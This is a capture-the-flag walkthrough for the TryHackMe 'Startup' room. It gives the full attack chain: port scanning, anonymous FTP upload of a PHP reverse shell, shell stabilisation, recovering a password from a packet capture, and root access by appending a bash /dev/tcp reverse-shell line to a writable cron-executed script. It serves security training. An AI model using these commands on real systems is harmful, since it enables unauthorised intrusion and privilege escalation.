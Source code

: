 # [Startup TryHackMe Writeup/Walkthrough][1]
Abuse traditional vulnerabilities via untraditional means.


#### Scan the machine.
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -sC -Pn <IP>`

```
Starting Nmap 7.91 ( https://nmap.org )
Nmap scan report for 10.10.200.192
Host is up (0.076s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.8.150.100
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed.
Nmap done: 1 IP address (1 host up) scanned in 11.32 seconds
```

Looks like we have three ports open `21, 22, 80`.

We have `ftp` anonymous login allowed and we see there are two files and a directory with read/write/execute permission.

![FTP Login](images/ftp_login.png)

Get the `important.jpg` and `notice.txt` into our PC and check what it says.

```
ftp> get important.jpg
local: important.jpg remote: important.jpg
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for important.jpg (251631 bytes).
226 Transfer complete.
251631 bytes received in 0.30 secs (824.6558 kB/s)

ftp> get notice.txt
local: notice.txt remote: notice.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for notice.txt (208 bytes).
226 Transfer complete.
208 bytes received in 0.00 secs (906.8080 kB/s)
```

Now that we have the file, check the content of `notice.txt` file.

> Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I don't know who it is, but Maya is looking pretty sus.

Hmm, interesting so this share is accessible from via website. Looks like we have a username `maya`.

I did a `gobuster` scan. CMD -> `gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt`

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                   http://10.10.200.192
[+] Method:                GET
[+] Threads:               10
[+] Wordlist:              /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes: 404
[+] User Agent:            gobuster/3.1.0
[+] Timeout:               10s
===============================================================
2021/05/24 16:44:03 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/files                (Status: 301) [Size: 314]
/index.html           (Status: 200) [Size: 808]
/server-status        (Status: 403) [Size: 278]
===============================================================
```

Seems like the `files` folder is similar to the `FTP` anonymous login from the website and it has execute, write permission as well.

We can put the [php-reverse-shell.php][3] into this folder and execute it via website. Just change the `$ip` to your TryHackMe's IP and `$port` to `4444` or you can leave as it is. Once you make the change `put` this file into the server.

![SHELL FTP](images/shell_ftp.png)

Once done with this, start a `netcat` listener. CMD -> `nc -lvnp 4444`

Go to the website `http://<IP>/file/ftp` and click on the file you copied into the server. You will have a reverse connection established.

![Got Access](images/got_access.png)

First things first, let's make this shell a bit stable.

```
1. python3 -c 'import pty;pty.spwan("/bin/bash")'
2. Ctrl + Z
3. stty raw -echo; fg
```

![Shell Stable](images/shell_stable.png)

We got the `recipe.txt` in the root directory.

![Recipe](images/recipe.png)

There is a directory called `incidents`. Let's get the file `suspicious.pcapng` back into our system and check the content.

We can start a Python Server using `python3 -m http.server` and get the file into your PC by visiting `http://<IP>:8000`.

![Content of Incidents](images/incidents.png)

*Alternative method:*

- Client: `nc -lvnp 1234 > sus.pcapng`
- Server: `nc -lvnp <YOUR_IP> 1234 < suspicious.pcapng`

Once you have the file, open it with Wireshark.

Go to File > Export > Objects > HTTP

![Export Objects](images/export_objects.png)

A reverse shell was initiated on the port `4444`. So we can filter the packets using `tcp.port == 4444`.

Right-Click on a packet > Follow > TCP Streams.

![TCP Streams](images/tcp_stream.png)

Seems like we have a password.

![Lennie's Password](images/lennie_password.png)

We can get the `user_flag` from here.

![User Flag](images/user_flag.png)

### Privilege Escalation

There is folder called `scripts`. Let's check the content.

![Scripts Planner](images/scripts_planner.png)

This file is executing another file `/etc/print.sh`. Let's check the content.

![Cat Planner](images/cat_planer.png)

This file has `read-write-execute` permission. So we can add the bash one linear reverse shell. We will append it to the file -> `echo "bash -i >& /dev/tcp/<YOUR_IP>/1234 0>&1" >> /etc/print.sh`

![Bash Scripts](images/bash_script.png)

Start a listener -> `nc -lvnp 1234` and wait for a while, you will have a reverse connection.

![No Comment](images/no_connect.png)


*Alternative Method:*

You could just add a copy script instead of bash one linear. CMD -> `echo " cp /root/* /home/lennie; chmod 777 /home/lennie/* " >> /etc/print.sh`

Now, we have the root access. You know what to do next :stuck_out_tongue_winking_eye:

![Root Flag](images/root_flag.png)

[1]: https://tryhackme.com/room/startup
[2]: https://www.hackhunt.in/search/label/Nmap
[3]: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

